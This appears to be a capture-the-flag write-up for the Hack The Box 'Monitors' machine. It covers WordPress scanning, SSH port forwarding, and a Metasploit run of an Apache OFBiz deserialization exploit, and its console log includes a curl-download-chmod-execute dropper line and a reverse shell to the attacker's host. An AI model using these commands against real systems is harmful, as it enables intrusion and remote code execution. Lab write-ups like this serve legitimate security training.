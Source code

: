 ## User

opening `10.10.10.238` says :

```Sorry, direct IP access is not allowed.
If you are having issues accessing the site then contact the website administrator: admin@monitors.htb
```

So add `admin@monitors.htb` to your `/etc/hosts` file.

Once updated open monitors.htb

using wappalyzer you can see its a wordpress website, so we scan it via `wpscan`  

it was a pain to get the keys and register but once done i was able to see the vulnerabilities and exploits as mentioned in this [file](wpscan.log)

## Root

Use linpeas.sh with `marcus` user.

didnt find anything so check all available ports
`netstat -tulnp` and find port 8443 so i port forward it to my own machine using:

`ssh -L 8443:127.0.0.1:8443 marcus@10.10.10.238 `

then i found this after researching
https://www.zerodayinitiative.com/blog/2020/9/14/cve-2020-9496-rce-in-apache-ofbiz-xmlrpc-via-deserialization-of-untrusted-data
https://kalinull.medium.com/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d

it shows a msf module imported it using this guide
https://kalinull.medium.com/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d


```bash
echo "msfconsole output"
msf6 > searchsploit Apache OFBiz
[*] exec: searchsploit Apache OFBiz

------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Apache OFBiz - Admin Creator                                                                                                                                | multiple/remote/12264.txt
Apache OFBiz - Multiple Cross-Site Scripting Vulnerabilities                                                                                                | php/webapps/12330.txt
Apache OFBiz - Remote Execution (via SQL Execution)                                                                                                         | multiple/remote/12263.txt
Apache OFBiz 10.4.x - Multiple Cross-Site Scripting Vulnerabilities                                                                                         | multiple/remote/38230.txt
Apache OFBiz 16.11.04 - XML External Entity Injection                                                                                                       | java/webapps/45673.py
Apache OFBiz 16.11.05 - Cross-Site Scripting                                                                                                                | multiple/webapps/45975.txt
Apache OFBiz 17.12.03 - Cross-Site Request Forgery (Account Takeover)                                                                                       | java/webapps/48408.txt
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE) via Unsafe Deserialization of XMLRPC arguments                                                        | java/webapps/50178.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
msf6 > use e
Display all 2218 possibilities? (y or n)
msf6 > use exploit/linux/
Display all 353 possibilities? (y or n)
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) >  set lhost 10.10.16.11
lhost => 10.10.16.11
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lport 9001
lport => 9001
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set forceexploit true
forceexploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set payload linux/x64/shell/reverse_tcp 
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Started reverse TCP handler on 10.10.16.11:9001 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Target cannot deserialize arbitrary data. ForceExploit is enabled, proceeding with exploitation.
[*] Executing Linux Dropper for linux/x64/shell/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Vu5gCY9zU3w4Qx3
[*] Local IP: http://192.168.1.115:8080/Vu5gCY9zU3w4Qx3
[+] Successfully executed command: curl -so /tmp/rGjfEHFX http://10.10.16.11:8080/Vu5gCY9zU3w4Qx3;chmod +x /tmp/rGjfEHFX;/tmp/rGjfEHFX;rm -f /tmp/rGjfEHFX
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Client 10.10.10.238 (curl/7.64.0) requested /Vu5gCY9zU3w4Qx3
[*] Sending payload to 10.10.10.238 (curl/7.64.0)
[*] Sending stage (38 bytes) to 10.10.10.238
[*] Command shell session 1 opened (10.10.16.11:9001 -> 10.10.10.238:52582) at 2021-10-03 20:30:13 -0400
[*] Server stopped.

```

